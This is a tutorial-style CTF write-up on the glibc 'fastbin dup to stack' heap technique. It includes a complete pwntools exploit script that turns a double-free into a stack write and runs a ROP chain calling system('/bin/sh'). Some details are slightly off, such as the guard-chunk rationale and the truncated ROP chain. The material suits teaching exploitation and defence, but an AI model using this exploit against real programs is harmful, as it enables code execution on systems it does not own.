

# The Toddler's Introduction to Heap Exploitation — Fastbin Dup to Stack (Part 4.1)

> Topic: Heap exploitation — fastbin dup targeting a stack address
> Series: Toddler's Introduction to Heap Exploitation, Part 4 of 4
> Difficulty: ★★★★☆ (hard)

---

## Challenge / Topic Overview

This writeup covers the **fastbin dup to stack** technique — a variant of the fastbin double-free attack where the target allocation address is on the *stack* rather than elsewhere on the heap. By overwriting a freed chunk's `fd` pointer with a stack address, the next `malloc()` returns a pointer to the stack, giving us a write-what-where primitive that can overwrite the return address and achieve ROP.



*The attack: double-free creates a fastbin cycle, overwrite fd with a stack address, next malloc returns the stack address. The "fake chunk" on the stack must have a valid size field matching the fastbin index — this is the key constraint.*

---

## Background: Fastbin Dup Refresher

The classic fastbin dup:
1. Allocate A, B (fastbin-sized).
2. Free A, free B, free A → fastbin: A → B → A (cycle).
3. `malloc` returns A. Write target address into A's `fd`.
4. `malloc` returns B.
5. `malloc` returns A again (same as step 3).
6. `malloc` returns the target address!

The key: after step 3, A's `fd` points to our target. The fastbin is now: A → B → A → target. Steps 4 and 5 drain A and B, then step 6 returns the target.

---

## The Stack Target

In the classic attack, the target is usually `__malloc_hook` or a GOT entry — both on the heap or in the data section. But we can also target the *stack*. If we can make `malloc` return a pointer to the stack, we can overwrite the return address and ROP.

### The constraint: valid size field

When `malloc` returns a chunk from the fastbin, it checks the chunk's `size` field:
```c
// glibc fastbin allocation check
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
    malloc_printerr ("malloc(): memory corruption (fast)");
```

The `size` field of the "fake chunk" at the target address must match the fastbin index. For fastbin[0x20] (chunks of size 0x20-0x2f), the size field must be `0x20` to `0x2f` (with the PREV_INUSE flag set, so `0x21` to `0x2f`).

This means: before doing the attack, I need to find (or create) a value on the stack that looks like a valid size field. On x86-64, common stack values that work:
- `0x7fffffffe390` → low byte `0x90` → size 0x90 → fastbin index 6 (0x80-0x8f). Doesn't match 0x20.
- I need a stack address where the 8 bytes starting at that address form a valid size.

### Finding the right stack offset

The trick is to scan the stack for a value that looks like a valid fastbin size. In practice:
- Saved RBP values often have low bytes like `0x20`, `0x30`, `0x40` (because of stack alignment).
- Function arguments on the stack may contain small integers.

If no natural value works, I can sometimes *create* one by writing a small value to the stack via a separate vulnerability (e.g., a format string write).

---

## The Attack Sequence

### Setup

Assume I've already done the double-free:
```
fastbin[0x20]: A → B → A (cycle)
```

And I've identified a stack address `&stack_addr` where the 8 bytes form a valid size field (e.g., `0x21`).

### Step 1 — Overwrite A's fd

```python
def alloc(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'size: ', str(size).encode())
    p.sendlineafter(b'data: ', data)

def free(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())

# After the double-free:
# fastbin[0x20]: A -> B -> A

# Allocate A, overwrite fd with stack address
alloc(0x18, p64(stack_addr))  # writes stack_addr into A's fd
# fastbin[0x20]: A -> B -> A -> stack_addr (fake chunk)

# Drain B and A
alloc(0x18, b'B')  # returns B
alloc(0x18, b'A')  # returns A (again)

# Next alloc returns the stack address!
alloc(0x18, p64(0xdeadbeef))  # returns stack_addr → writes to stack
```

### Step 2 — Write the ROP chain

The last `alloc` returns a pointer to the stack. The `data` I send is written to the stack starting at `stack_addr + 0x8` (the `fd` field of the fake chunk is at `stack_addr + 0x0`, and the data starts at `stack_addr + 0x8` in a 0x20-sized chunk).

If `stack_addr` points just before the return address, I can write a ROP chain:

```python
# stack_addr is 0x10 bytes before the return address
rop_chain = flat(
    pop_rdi,
    next(libc.search(b'/bin/sh\x00')),
    libc.sym.system,
)

alloc(0x18, b'X'*0x8 + rop_chain)  # skip fd, write ROP chain
```

When the function returns, it executes the ROP chain → shell.

---

## Full Exploit

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./challenge')
libc = ELF('./libc.so.6')

p = process('./challenge')

def alloc(size, data=b'A'):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'size: ', str(size).encode())
    p.sendlineafter(b'data: ', data)

def free(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())

# Step 1: Double-free (with B in between to pass the check)
alloc(0x18)  # idx 0 = A
alloc(0x18)  # idx 1 = B
alloc(0x18)  # idx 2 = C (guard)
free(0)      # fastbin: A
free(1)      # fastbin: B -> A
free(0)      # fastbin: A -> B -> A (check passes: head was B, not A)

# Step 2: Find a stack address with a valid size field
# This requires a leak — e.g., via a format string or a UAF read
# For this example, assume we leaked: stack_addr = 0x7fffffffe3a0
# And the 8 bytes at stack_addr happen to be 0x21 (valid for fastbin[0x20])
stack_addr = 0x7fffffffe3a0

# Step 3: Overwrite A's fd with stack_addr
alloc(0x18, p64(stack_addr))  # idx 3 = A (overwrite fd)
alloc(0x18)                    # idx 4 = B
alloc(0x18)                    # idx 5 = A (again)

# Step 4: Allocate from the stack!
# The ROP chain goes here
rop_chain = flat(
    b'X' * 8,              # skip the fd field
    pop_rdi_ret,
    next(libc.search(b'/bin/sh\x00')),
    ret_gadget,             # stack alignment
    libc.sym.system,
)
alloc(0x18, rop_chain[:0x18])  # idx 6 = stack_addr → writes ROP chain

# When the current function returns, ROP chain executes → shell
p.interactive()
```

---

## Takeaways

- **The size field is the key constraint.** The fake chunk on the stack must have a valid size matching the fastbin index. Finding (or creating) this value is the hard part. If you can't find a natural 0x21 on the stack, look for 0x31, 0x41, etc. — any fastbin-size value works, just use a different fastbin index.
- **Stack addresses change between runs.** The attack requires knowing the exact stack address. ASLR randomizes the stack base, so I need a leak (format string, `/proc/self/maps`, etc.) before building the exploit.
- **Heap-to-stack is more powerful than heap-to-heap.** Writing to the heap lets me corrupt heap metadata. Writing to the stack lets me control the return address — a direct path to code execution.
- **The guard chunk matters.** Without chunk C (the guard), freed chunks A and B might consolidate with the top chunk, breaking the fastbin cycle. Always allocate a guard at the end of your heap layout.
- **This technique is glibc-version-dependent.** glibc 2.32+ adds safe-linking, which encrypts the `fd` pointer. The attack needs modification: instead of `fd = stack_addr`, use `fd = stack_addr ^ (chunk_addr >> 12)`. Always check the glibc version before choosing the technique.
